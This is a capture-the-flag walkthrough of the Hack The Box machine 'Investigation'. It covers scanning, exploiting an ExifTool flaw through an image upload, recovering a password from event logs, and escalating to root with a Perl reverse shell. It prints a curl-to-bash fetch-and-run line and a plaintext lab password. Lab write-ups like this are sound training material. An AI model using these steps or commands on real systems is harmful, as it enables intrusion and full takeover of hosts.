


February 16, 2023
Investigation
Tools Needed: Gobuster, Perl, and Burp Suite
Step 1: Start off with an Nmap Scan
nmap -sV -sC <IP ADDRESS> -oA <FILE NAME>
From the nmap scan we can see that the IP redirects to this webpage instead so we can add that to the /etc/hosts file
This will scan for any directories that come after the main website:
gobuster dir -u http://eforenzices.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
This one will scan for any vhosts:
gobuster vhost -u http://eforenzics.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-
top1million-5000.txt –append-domain
Looks like we’re getting a lot of responses, so let’s go check out the web page to see if there’s anything we can see.

Perfect place to start is somewhere they let us upload our own files! I’ll try uploading a php reverse shell and maybe we’ll get lucky.
Tried to upload a .php file → jpeg and png only.
So, let’s try uploading a jpeg
It was a success, but we didn’t learn anything. Let’s try this again using the burp suite browser, and capture the request this time.
Not seeing a lot from this either, let’s check out the analysis, maybe that will give us a hint.
This was generated with ExifTool v 12.37, this version is vulnerable to CVE-2022-23935
Let’s get this github repo and get it set up
https://github.com/BKreisel/CVE-2022-23935

Once you’ve installed it you can run it without issues. You can see my error that I don’t have my .local/bin in my path so I specified it’s full location.
Start a netcat listener as indicated by the output.
Upload the file it created (curl <IP ADDR> : PORT | bash | )
Upload and the exploit should run
And we’re in. We’re only in as www-data, so we need to get some user access.
Reading the home directory, we see smorton as a user.
Our path should be Webserver → user → root
Doing some digging and reading through files, we come to a “Windows Event Logs for Analysis.msg” , so we curl that to our machine.
To find more about a file, run “file” and it will attempt to tell you what it is.
We don’t have anything for a CDFV2 Microsoft outlook message, so let’s try to see if there’s a free web based viewer.
Looks like we have a evtx-logs.zip file in here, we can download it from the webpage and unzip it.
More files we don’t have tools to read.
https://github.com/thibaultbl/evtx2pandas
I got extremely lucky by searching for “def” to find default names, but came across the password. This is a good resource to find good things to use to search through an event log.
Def@ultf0r3nz!csPa$$
Let’s try this with Smorton (The user we found before)
After you ssh as smorton, you can get the user flag!
Let’s check out this file. Looks a little bit like a CTF challenge, buffer overflow?
Set up a server with python and bringing it to our machine to do some analysis on it
We can open this up in Ghidra no problem. Main is a good place to start
This looks pretty simple, the program will take in 2 parameters. If you look on line 42, it will then execute something with Perl. If you look on line 23, you’ll notice a strange string, this is a “password” which acts as the second parameter. If this isn’t in the command line the program will quit immediately. We also notice that this is using curl, so we can piece together the necessary parts to get a working exploit. We have the binary on the target system with sudo access, we have found the password for the file, now we just need to host a reverse shell that this program can curl, and then execute it. And because we’re executing this as root, once our reverse shell catches, we should be root.
Testing the password
Perl reverse shell.
Running the exploit
Running our netcat listener & catching the shell
It worked! Now we can get the root flag.
Success! Investigation has been pwned üòé